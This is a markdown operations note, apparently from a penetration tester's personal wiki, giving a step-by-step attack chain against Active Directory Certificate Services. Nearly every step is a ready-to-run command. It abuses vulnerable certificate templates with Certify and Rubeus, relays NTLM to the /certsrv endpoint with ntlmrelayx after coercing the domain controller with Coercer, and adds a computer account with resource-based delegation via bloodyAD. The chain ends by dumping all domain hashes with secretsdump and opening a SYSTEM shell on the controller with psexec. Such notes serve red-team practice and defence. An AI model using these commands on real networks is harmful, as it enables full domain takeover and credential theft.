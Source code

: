 ```yaml
---
title: Attacking Active Directory Certificate Services
tags:
  - breach
  - operations
  - attack
  - active
  - directory
  - certificates
  - services
  - service
  - certificate
  - certify
  - certipy
  - specter
  - ops
  - powersploit
  - powerview
  - rubeus
  - bloodhound
  - coercer
  - proxychains
  - certifried
  - impacket
  - metasploit
  - relay
---
```


A majority of the discussion in this section references
[a SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
paper on abusing **Active Directory Certificate Services (ADCS)**.

## Misconfigured certificate templates

We can use the [Certify](https://github.com/GhostPack/Certify) toolkit to
identify vulnerable certificate templates by invoking the following:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"find",
		"/vulnerable"
	)
```

If we identify a vulnerable certificate template that enables low-privileged
users to enroll certificates with an alternative subject name and that allow
user login, we can use
[PowerSploit's PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
tool to identify Domain Administrators by invoking the following:

```powershell
. .\PowerView.ps1
Get-DomainGroupMember -Identity 'Domain Admins'
```

Finding a valid Domain Admin, we can use the **Certify** toolkit again to enroll
a certificate:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"request",
		"/ca:${DOMAIN}\${DOMAIN_CONTROLLER}",
		"/template:${TEMPLATE_NAME}",
		"/altname:${DOMAIN_ADMIN_USERNAME}"
	)
```

After successfully enrolling a certificate, a certificate will be printed to
`stdout` starting with `-----BEGIN RSA PRIVATE KEY-----`. Write all of the
contents of the certificate to a `.pem` file so we can operate on it. Using
**openssl**, we can convert the certificate to a `.pfx` file:

```powershell
Start-Process `
	-FilePath "openssl" `
	-ArgumentList @(
		"pkcs12",
		"-in",
		"${PEM_FILE}",
		"-keyex",
		"-CSP",
		"'Microsoft Enhanced Cryptographic Provider v1.0'",
		"-export",
		"-out",
		"${OUTFILE}.pfx"
	)
```

With our new `.pfx` certificate in hand, we can use
[Rubeus](https://github.com/GhostPack/Rubeus) to request a **Ticket Granting
Ticket (TGT)** by invoking the following, injecting the TGT into our user's
memory:

```powershell
Start-Process `
	-FilePath ".\Rubeus.exe" `
	-ArgumentList @(
		"asktgt",
		"/user:${DOMAIN_ADMIN_USERNAME}",
		"/certificate:${OUTFILE}.pfx",
		"/password:${CERTIFICATE_PASSWORD}",
		"/ptt"
	)
```

## Attacking ADCS HTTP endpoints

The ADCS certificate enrollment process typically involves an HTTP-based web
server that hosts an ASP application endpoint at
`http://${CASERVERHOSTNAME}/certsrv`. The enrollment server doesn't always use
HTTPS by default, making it vulnerable to an HTTP relay attack.

When we perform our attack, we trick privileged accounts like machine or service
accounts, e.g. the Domain Controller account, to authenticate to our attacker
machine. We can then relay this authentication to the certificate enrollment
service while requesting access to a certificate template that contains Client
Authentication to a target we want to compromise.

Using the [Certipy](https://github.com/ly4k/Certipy) tool, we can enumerate a
domain's certificate templates for vulnerable configurations by invoking the
following:

```bash
certipy-ad find -u "${USER}@${DOMAIN}" -p "${PASSWORD}" -dc-ip ${DOMAIN_CONTROLLER_IPADDR} -enabled
```

We could use a tool like [Bloodhound](https://github.com/SpecterOps/BloodHound)
to interpret the results of the above invocation. Finding a vulnerable template,
we can use **impacket-ntlmrelayx** to stage our NTLM relay:

```bash
impacket-ntlmrelayx -t "http://${CA_HOSTNAME}/certsrv/certfnsh.asp" --adcs --template ${VULNERABLE_TEMPLATE} -smb2support
```

We can use the [Coercer](https://github.com/p0dalirius/Coercer) toolkit to
coerce the Domain Controller account to authenticate to our fake service using
vulnerable RPC commands. In the following example, we abuse the
`EfsRpcAddUsersToFile` RPC endpoint:

```bash
coercer coerce --target-ip ${DC_IPADDR} --l ${LHOST} -u ${USER} -p ${PASS} --filter-method-name EfsRpcAddUsersToFile
```

After invoking the above, the Domain Controller will authenticate to us and our
NTLM relay will use the Domain Controller's authentication to enroll a new
certificate for authentication. **impacket** will proceed to write the `.pfx`
certificate to disk.

## Abusing LDAP with certs

Sometimes the Kerberos Key Distribution Center (KDC) doesn't have certificate
authentication enabled. We can abuse LDAP with a certificate we've enrolled for
the Domain Controller to pivot and pwn the domain.

Using [bloodyAD](https://github.com/CravateRouge/bloodyAD), we see if we can
create a new computer within the domain:

```bash
python bloodyAD.py -d ${DOMAIN} -u ${USER} -p ${PASS} --host ${DC_IPADDR} get object "DC=${DOMAIN},DC=com" --attr ms-DS-MachineAccountQuota
```

If the `ms-DS-MachineAccountQuota` is greater than 0, we're good to go for
creating a new host. We can invoke the following to do this:

```bash
python bloodyAD.py -d ${DOMAIN} -u ${USER} -p ${PASS} --host ${DC_IPADDR} add computer ${COMPUTERNAME} ${COMPUTERPASSWORD}
```

We invoke the following to convert our `.pfx` file to a `.pem` file and then use
the Domain Controller's certificate to enable our new computer to impersonate
users:

```bash
openssl pkcs12 -in ${CERT}.pfx -out ${CERT}.pem -nodes
python bloodAD.py -d ${DOMAIN} -c ":${CERT}.pem" -u "${COMPUTERNAME}$" --host ${DC_IPADDR} add rbcd "${DC_COMPUTERNAME}$" "${COMPUTERNAME}$"
```

With the ability to impersonate any user, let's acquire a Kerberos TGT for the
**Administrator** account on the Domain Controller:

```bash
impacket-getST -spn LDAP/${DC_COMPUTERNAME}.${DOMAIN} -impersonate Administrator -dc-ip ${DC_IPADDR} "${DOMAIN}/${COMPUTERNAME}:${PASSWORD}"
```

This will create a `.ccache` file for the user we've impersonated. Using
techniques from our
[[linux-lateral-movement#Impacket|Linux lateral movement - Impacket]] and
[[windows-lateral-movement#Metasploit|Windows lateral movement - Metasploit]]
discussions, we can establish a **SOCKS5** proxy with our current access into
the domain and use **proxychains** to enumerate and attack the domain with our
new Kerberos TGT.

For example, we can dump all NTLM hashes from the domain controller by invoking
the following:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/secretsdump.py "${DOMAIN}/Administrator@${DC_COMPUTERNAME}.${DOMAIN}" -k -no-pass -dc-ip ${DC_IPADDR} -target-ip ${DC_IPADDR}
```

Even juicier, let's obtain a shell as **SYSTEM** on the Domain Controller using
`psexec`:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/psexec.py "${DOMAIN}/Administrator@${DC_COMPUTERNAME}.${DOMAIN}" -k -no-pass -dc-ip ${DC_IPADDR} -target-ip ${DC_IPADDR}
```

## Related pages

- [[windows-credentials|Windows credentials]]

## References

- [AD Certifried](https://cravaterouge.com/articles/ad-certifried/)
